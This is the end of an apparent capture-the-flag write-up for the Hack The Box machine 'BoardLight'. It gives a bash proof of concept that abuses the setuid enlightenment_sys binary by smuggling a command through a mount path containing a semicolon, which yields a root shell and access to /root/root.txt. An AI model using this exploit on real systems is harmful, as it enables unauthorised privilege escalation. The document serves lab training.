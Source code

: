 ```bash
mkdir /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"
echo "/bin/bash" > /tmp/exploit
chmod a+x /tmp/exploit
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

- Finally, he executed this Proof of Concept (PoC) and succeeded! The pentester was able to read the file `/root/root.txt`.

![](/assets/images/HTB-Writeup-BoardLight/Pasted image 20240528113816.png)


>I hope you had as much fun reading this write up as I did writing it. Happy Hacking!!👾
{: .prompt-tip }

